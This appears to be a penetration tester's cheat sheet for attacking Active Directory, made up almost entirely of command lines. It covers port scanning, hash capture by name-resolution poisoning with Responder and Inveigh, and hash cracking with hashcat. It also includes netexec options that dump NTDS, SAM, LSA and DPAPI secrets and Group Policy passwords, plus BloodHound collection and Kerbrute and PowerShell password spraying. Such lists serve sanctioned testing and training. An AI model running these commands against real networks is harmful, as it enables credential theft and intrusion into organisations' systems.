 ## AD Enumeration

### Port Scanning

```bash
# tcp
nmap $TARGET -p- -T4 -vv
nmap $TARGET -p $PORT -T4 -vv -oA TARGET_full_tcp_scan
nmap $TARGET -sU --min-rate=10000 -sV -oA TARGET_udp_scan
# udp
udpx -t $TARGET -c 128 -w 1000
```

### Responder
```bash
responder.py -I $INTERFACE
responder.py -I $INTERFACE --lm
responder.py -I $INTERFACE -w
responder.py -I $INTERFACE -A
## Cracking using hashcat
hashcat -m 5600 file /path/2/rockyou.txt
```

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

### NETEXEC

```bash
nxc smb
  -u '' -p ''
  -u 'had' -p ''
  -u 'guest' -p ''
  --local-auth
  --users
  --rid-brute
  --shares
  -M spider_plus -o DOWNLOAD_FLAG=True
  --lsa --ntds --sam --dpapi
  -M gpp_password
  -M enum_trusts
  # crack the result with 
  gpp-decrypt $PASSWORD

nxc ldap
  --bloodhound
  --pass-pol
  -M get-desc-users
nxc rdp
  --local-auth
nxc winrm
  --local-auth
nxc mssql
  --local-auth
```

### Enum4linux-ng
```bash
enum4linux-ng -A "$TARGET"
```

### Bloodhound
```bash
bloodhound-ce.py --zip -c All -d "$DOMAIN" -u "$USER" -p "$PASSWORD" -ns "$DC_IP"
  -dc "$FQDN"
  --dns-tcp
  --dns-timeout 40
Sharphound.exe -c All -d "$DOMAIN"
```

### Rpcclient
```bash
rpcclient -U "" -N $TARGET
querydominfo
enumdomusers
```

### Kerbrute
```bash
kerbrute userenum -d $DOMAIN --dc $DC_IP /path/2/userslist.txt 
kerbrute passwordspray -d $DOMAIN --dc $DC_IP /path/2/userslist.txt /path/2/passwords_list.txt
```

### PasswordSpray
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
